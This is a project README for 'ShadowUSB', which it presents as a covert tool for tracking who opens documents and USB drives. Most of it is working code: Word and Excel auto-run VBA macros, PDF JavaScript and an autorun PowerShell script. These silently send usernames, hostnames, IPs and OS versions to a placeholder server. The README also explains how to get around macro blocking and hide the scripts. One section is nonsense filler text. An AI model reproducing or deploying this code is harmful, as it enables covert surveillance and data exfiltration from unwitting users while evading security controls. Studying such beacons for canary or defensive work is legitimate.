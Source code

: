 # ShadowUSB
<picture>
<source srcset="/shadowUSB.jpeg">
</picture>
ShadowUSB is a covert tracking tool designed to monitor and log interactions with untrusted documents and USB drives. By embedding beaconized documents, ShadowUSB tracks when and where files are accessed, offering valuable insights into unauthorized usage. Whether plugged into an unknown machine or opening potentially risky documents, ShadowUSB silently captures the event, providing detailed analytics on user behavior. Ideal for cybersecurity professionals and organizations looking to enhance their threat detection capabilities, ShadowUSB adds an extra layer of security by shedding light on otherwise invisible activities.

## Beaconizing the Doc's
Haxx0r ipsum ascii worm *.* rsa Leslie Lamport it's a feature echo memory leak syn race condition recursively. Packet break root Linus Torvalds case kilo bypass false bytes continue endif sql foad stdio.h pragma chown. Crack else blob infinite loop packet pwned float shell afk.

### Beaconizing Word
Let's beaconize Word. You'll need to have the developer tab in your ribbon for Word. Click VB, make sure your are in ThisDocument, and copy in this code.  Also don't forget to change yourwebserver.com to your server address.
```commandline
Private Sub Document_Open()
    MsgBox "Word Document Opened" ' Debugging message
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=word&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```

Mo Macros, Mo Problems... Your company blocks macros/VB.  No problemo.  We will use a shapes and hyperlinks to bypass this.
```commandline
Steps to Create a Whole-Page Link in Word M365

1. Open your Word Document:

 - Start with the document where you want to add the whole-page link.
 
2. Insert a Shape:

 - Go to the Insert tab.
 - Click on Shapes and choose Rectangle.
 - Draw a rectangle that covers the entire page. You can drag the edges of the shape to ensure it covers the full width and height of the page.

3. Make the Shape Transparent:

 - With the rectangle selected, go to the Format tab.
 - Click on Shape Fill and select No Fill.
 - Click on Shape Outline and select No Outline. This will make the rectangle invisible.

4. Add a Hyperlink to the Shape:

 - Right-click on the shape and select Link (or Hyperlink).  e.g., http://yourserver.com/track?doc=word
 - In the dialog box, enter the URL or the location within the document you want to link to.
 - Click OK.

5. Send the Shape to the Back:

 - With the shape still selected, go to the Format tab.
 - Click on Send Backward > Send to Back to ensure it doesn't cover any text or other content on the page.

6. Test the Link:

 - Save your document and test the link by clicking anywhere on the page.
```

### Beaconizing Excel
Let's beaconize Excel. You'll need to have the developer tab in your ribbon for Excel.  Click VB, make sure you are in ThisWorkbook, and copy in this code.  Also don't forget to change yourwebserver.com/ to your web server address.

Visual Basic [VB]
```commandline
Private Sub Workbook_Open()
    Dim HttpReq As Object
    Set HttpReq = CreateObject("MSXML2.ServerXMLHTTP")
    HttpReq.Open "GET", "http://yourwebserver.com/tracker?doc=excel&user=" & Environ("USERNAME"), False
    HttpReq.Send
End Sub
```
As you can guess... Most businesses/users would[SHOULD!] have macros disabled.  To bypass this we will use Excels "Get Data" feature and a hyperlink to our tracking web server.
```commandline
- In Excel, go to the "Data" tab and select "Get External Data."
- Choose "From Web" and enter your tracking URL, e.g., http://yourserver.com/track?doc=excel.
- This will trigger a request when the document is opened, but it might also prompt the user.
```
### Beaconizing PDFs

Here we will beaconize our PDFs.  I am using a combination of JavaScript and Tracking URLs.  I am doing this to try to keep things stealthy.  Usernames via web browsers are tricky but I can get IP Addresses and User Agent info that helps track the end user.

JavaScript Code:
```
var viewerApp = app.viewerType;
var viewerVersion = app.viewerVersion;
var user = app.response("Please enter your username:");


var url = "http://yourwebserver.com/tracker?doc=pdf&user=" + encodeURIComponent(user) + "&app=" + encodeURIComponent(viewerApp) + "&version=" + encodeURIComponent(viewerVersion);

app.launchURL(url, true);
```    
Tracking URL:
```commandline
http://yourserver.com/track?id=UniqueID12345
```
## Backend Tracker 
The tracker.py takes care of the back end tracking.  This is a WIP.  It is basic at the moment but tracks and logs to a track.log file.  It currently uses VB and JavaScript, I am working on making it more stealthy to the end user.

To launch the backend tracker:
```commandline
python tracker.py
or
python3 tracker.py
```
### Tracking/Logging Webpage
I added a webpage to the backend script.  It shows a more C-Level easy to read version of the logs.  You can this with your C-Level/non-tech management.  Also makes it easier to read for "1337 h4xx0rs"... I mean cybersecurity professionals.

To access this feature:
```commandline
http://yourserver.com:8000/logs
```

This gives access to Real-Time Updates:  The logs will update each time the page is refreshed, reflecting the most recent tracking events.

## USB Drive [Hardware] tracking
To track the actual USB drive we will use powershell and auto run.  You can do this with python as well. I may implement that later.  As for now powershell works great.

### Powershell Script for tracking[beaconizing] the physical USB drive.
This powershell script is pretty self explanitory.  It will give you the IP Address, Hostname, Username and OS Version of the user that inserted the drive.  Copy this script save it as tracker.ps1  For stealthiness store this tracker.ps1 and the autorun.inf file in a hidden folder on your ShadowUSB drive.
```commandline
$ip = (Get-NetIPAddress -AddressFamily IPv4 | Where-Object { $_.InterfaceAlias -eq (Get-NetIPConfiguration | Where-Object { $_.NetAdapter.Status -eq 'Up' }).InterfaceAlias } | Select-Object -First 1).IPAddress
$hostname = $env:COMPUTERNAME
$username = $env:USERNAME
$os_version = (Get-WmiObject Win32_OperatingSystem).Version
$user_agent = "$hostname-$username-$os_version"

Invoke-WebRequest -Uri "http://yourwebserver.com/tracker?id=USBTracking&hostname=$hostname&ip=$ip&user=$username&os=$os_version" -UserAgent $user_agent
```

### Autorun via autorun.inf
You can use notepad copy this code and save it as autorun.inf
```commandline
[autorun]
open=powershell -ExecutionPolicy Bypass -File tracker.ps1
action=Run tracking script
label=USB Tracker
```
